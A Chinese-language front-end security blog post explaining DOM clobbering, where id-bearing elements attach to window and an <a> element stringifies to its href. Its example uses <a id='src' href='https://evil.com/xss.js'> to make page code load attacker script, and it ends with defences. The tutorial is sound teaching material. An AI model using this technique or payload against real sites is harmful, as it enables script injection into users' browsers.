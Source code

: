 ```yaml
---
title: 前端資安宇宙（四）- HTML 也能影響JavaScript?
date: '2025-06-23'
tags: ['security', 'XSS', 'front-end']
draft: false
summary: 'HTML只能一個單純的標記語言？，還可以拿來執行JavaScript呢！'
---
```


## 前言

你可能覺得：「XSS 不就是 `<script>alert(1)</script>` 那種老掉牙的東西嗎？」

其實不然 —— 在某些狀況下，攻擊者**甚至不用寫 `<script>`**，只要插入一段普通的 HTML，加上一點 JavaScript 邏輯失誤，就可能觸發 **XSS 攻擊**。

這篇文章帶你了解一些看似無害但其實危險的瀏覽器特性，例如：

- 用 `window.id` 就能抓到 DOM？
- 為什麼 `<a>` 轉成字串會變網址？
- 怎麼用「DOM Clobbering」結合上面這些來做出 XSS？

---

## 用 `window` 就能抓到 DOM？

讓我們看看以下寫法

```jsx
<button id="btn">Click me</button>

<script>
   console.log(window.btn) //<button id="btn">Click me</button>


//window.btn === document.getElementById('btn')  ✅ true
</script>

```

看起來就像是少了 document.getElementById，但卻能正常運作。這是因為：瀏覽器會把具有 id 的 DOM 元素自動掛到 window 上當成變數。
雖然看起來很方便，但這樣的「貼心設計」其實是個雙面刃，因為它讓我們的變數命名與 DOM 結構產生了不明顯的耦合關係，不小心就可能被污染！

## 為什麼 `<a>` 轉成字串會變網址？

我們先來看看其他 DOM 元素轉字串時的行為是什麼：

```html
<div id="box"></div>
<script>
  console.log(String(window.box)) // [object HTMLDivElement]
</script>
```

以上的範例結合剛剛的特殊抓取DOM的方式抓取`<div>`，這是我們預期的結果，DOM 元素轉成字串時，會變成像 [object HTMLDivElement] 這樣的字串。

但接下來，我們來看看一個非常「不一樣」的例子 —— `<a>` 標籤。

```html
<a id="link" href="https://example.com"></a>
<script>
  console.log(String(window.link)) // https://example.com
</script>
```

你沒有看錯，這次輸出的是一段完整的網址，而不是像剛剛一樣的 object HTMLAnchorElement。
這是因為 `<a>` 是個特殊案例：它的 toString() 方法會自動回傳它的 .href 值

## 怎麼用「DOM Clobbering」結合上面這些來做出 XSS？

我們已經知道：

1. 瀏覽器會把 `id="xxx"` 的元素自動掛到 `window.xxx`
2. `<a>` 元素轉成字串時，會變成它的 `.href` 網址

這兩件事單獨來看沒什麼，但**如果 `<a>` 的 `id` 被設計成和你 JS 裡的變數一樣，就會造成變數污染！**

---

來看看以下範例

```html
<a id="src" href="https://evil.com/xss.js"></a>

<script>
  if (window.src) {
    const script = document.createElement('script')

    // 這裡的 src 實際是 <a> 元素，但會被轉成字串
    script.src = src

    document.body.appendChild(script)
  }
</script>
```

發生了什麼？

- `<a id="src">` 讓 `window.src === <a>` 成立
- script.src = src 實際會變成 script.src = src.toString() → 等於 script.src = src.href
- src.href 是攻擊者控制的網址，成功載入惡意 script！

## 如何防範 DOM Clobbering XSS？

DOM Clobbering 的核心問題是：**使用者插入的 HTML 結構，干擾了 JavaScript 的變數或函式行為。**  
以下是幾個實務上能有效防止這類問題的方式：

1. 不要依賴 `window.id` 自動綁定 DOM
2. 請明確使用 DOM API
3. 加上 CSP（Content Security Policy）
4. [DOMPurify]('https://github.com/cure53/DOMPurify')
